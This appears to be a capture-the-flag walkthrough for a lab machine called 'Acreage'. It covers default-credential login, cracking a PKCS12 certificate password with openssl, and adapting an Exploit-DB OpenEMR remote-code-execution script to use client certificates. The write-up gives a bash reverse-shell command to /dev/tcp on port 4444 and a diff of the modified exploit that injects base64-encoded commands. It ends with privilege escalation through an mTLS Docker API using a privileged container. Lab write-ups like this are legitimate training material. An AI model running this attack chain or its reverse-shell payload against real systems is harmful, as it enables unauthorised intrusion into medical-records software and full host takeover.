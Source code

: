 # Acreage

## Enumeration

The initial enumeration phase is to begin by evaluating the system. One main port should be visible to user. Web port which is running on port 443 though secured by https.

Upon visiting the verb port this directory a web page for an employer portal is identified.

Upon scanning this with the `dirb` or `gobuster` the folder under the path `private` is identified. This directory has notes section. It is protected by http based auth.

This is a directory intended for intranet only applications though it seems mis-configured. By attempting to visit the private admin notes area we find the site is protected by HTTP based authentication.

Through some inspection we see that based on the default admin page it states that OpenEMR credentials should work. After trying to look up the default credentials and attempting to use them we find that authentication is successful. These credentials seem to be `admin:admin`.

We find a notes area of which there a few files of which after further investigation we find to be x509 certificate files.

![](images/configapp6.png)

We also attempt to visit the OpenEMR page, but we find that it is blocked by what seems to be x509 verification requirements.

`You don't have permission to access this resource.Reason: Cannot perform Post-Handshake Authentication.`

Since we have certificates that we can make use of it is possible to attempt various techniques to further attempt to use the web application.

We brute force the password to the `p12` file in order to perform operation on the certs and keys stored within it.

There is not much out there on the process though the following tool should work. It might also be possible to do this using a quick bash script:

[p12Cracker](https://github.com/allyomalley/p12Cracker)


It is also possible to write a script to perform the command which would be the following: `openssl pkcs12 -in dockerdev.p12  -passin pass:admin`

![](images/p12bruteforce.png)

There should be an option to parse the private key or public key. 

Once we have the password we proceed to unpack the `p12`  certs and keys using the following technique: `openssl pkcs12 -in dockerdev.p12 -out dockerdev.pem -nodes -nocerts -passin pass:admin` & `openssl pkcs12 -in dockerdev.p12 -out dockerdev.crt -nokeys -passin pass:admin`

Using curl, it is possible to test the functionality of the service. We do this by running the following command while ensuring we specify the correct certificates and keys. 

`curl --cacert ca-signing-chain.pem --cert dockerdev.crt --cert-type PEM --key dockerdev.pem --key-type PEM https://192.168.56.10/openemr-5_0_1_3 -v`

![](images/testcertandkey.png)

If this was to be run locally we would be required to specify a bundled ca certificate containing our CA and web Intermediate CA. They can be downloaded from the private notes section on the site.

It is also possible to use the PKCS12 format to authenticate to the system via a browser. Though this is not a hard requirement. The main thing at this stage is to ensure we have valid keys and certificates. 

This is done by importing the p12 file into the firefox browser via preferences, certificates and accessing the certificate manager.

![](images/browserauth.png)

## Exploitation

Once we have reached the UI we can evaluate the application further. We begin by login in using the default credentials. These are `admin:admin` once logged in and the system version has been verified. We proceed to looking and downloading our exploit's at the following location. Though their multiple ways to verify the version.

https://www.exploit-db.com/exploits/45161

What is required is to modify the exploit so that the requests package can authenticate and pass data to the web application.

The script can be edited by using the following code and the downloaded certificates from the enumeration phase.

```py
#https://stackoverflow.com/questions/63700904/python-code-for-sending-requests-with-certificate-private-encrypted-key-and-pas
#https://security.stackexchange.com/questions/59136/can-i-add-a-password-to-an-existing-private-key
#
# Since request package does not support encryption. The method or thing to do is to remove that particular encryption.

import requests

cert_file_path = "<Location of exported certificate and private key>"
key_file_path = "<Location of exported certificate and private key>"

url = "https://192.168.56.10/openemr-5_0_1_3/"
cert = (cert_file_path, key_file_path)
r = requests.get(url, cert=cert, verify='<Location of CA Signing cert>/ca-signing-chain.pem')
```

Once the sections in the script are amended which should only be two post and 1 requests. Burp suite can also be used to further evaluate things in this stage of the process.

![](images/funcationingkey.png)

The script editing section should be straight forwards from this point onwards.

Add the following variable: `cert = (cert_file_path, key_file_path)`

Then append that to every request via the cert variable: `python3 45161.py http://192.168.56.10/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/you-local-system/4444 0>&1'`

This will spawn a netcat shell so ensure you have a listener running before attempting to run the script. When the netcat listener receves a shell. The user is expected to perform enumeration of the system.

This is the diff of the original exploit compared to the modified version which gives us a net cat listener on the remote system.

```shell
> cert_file_path = "dockerdev.crt"
> key_file_path = "dockerdev.pem"
> 
> cert = (cert_file_path, key_file_path)
> 
66c71
<     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login)
---
>     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login, cert=cert, verify="ca-signing-chain.pem")
136c141
<     _cmd = "|| echo " + base64.b64encode(args.cmd) + "|base64 -d|bash"
---
>     _cmd = "|| echo " + base64.b64encode(args.cmd.encode("utf")).decode("utf") + "|base64 -d|bash"
140,141c145,146
<     s.post(args.host + "/interface/super/edit_globals.php", data=p)
<     sp = s.get(args.host + "/interface/main/daemon_frame.php") # M4tt D4em0n w0z h3r3 ;PpPpp
---
>     s.post(args.host + "/interface/super/edit_globals.php", data=p, cert=cert, verify="ca-signing-chain.pem")
>     sp = s.get(args.host + "/interface/main/daemon_frame.php", cert=cert, verify="ca-signing-chain.pem") # M4tt D4em0n w0z h3r3 ;PpPpp
```

![](images/exploition.png)

## Escalation

The main thing in this instance is to identify that docker is running on the system. There is a daemon also listening with the associated port. Attempting to curl the port would show that it is protected by mTLS.

![](images/base-enumiration.png)

The user should find various certs and keys on the system on the remote system upon inspection. This is CA-key with private but weak password which should be easily bruteforced from a shell. 

![](images/hostenum.png)

The docker key is present though it is encrypted. It is possible to decrypt it using the previous found password of `admin`.

`openssl rsa -in /etc/dite_pki/certs/dockerdev.key -out your.open.key -passin pass:admin`

The user also has the option to transfer their previously cracked key and skip this step of cracking the key on the system.

Once we have this process in motion it is then possible to perform the following task which is to authicate to the docker daemon service as shown in the following image using mTLS.

![](images/dockerd.png)

We can the use this in association with the run command in order to run a privilege container. This container can be mounted to alternate paths or the user to retrieve the proof `.txt` file. 

Authentication in this instance occurs via the HTTPS based docker API service. There is also a container that can be used on the host system.

```
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
ubuntu       latest    ba6acccedd29   8 weeks ago   72.8MB
```

![](images/dockerd-images.png)

![](images/docker-images0.png) 

![](images/docker-root-key.png)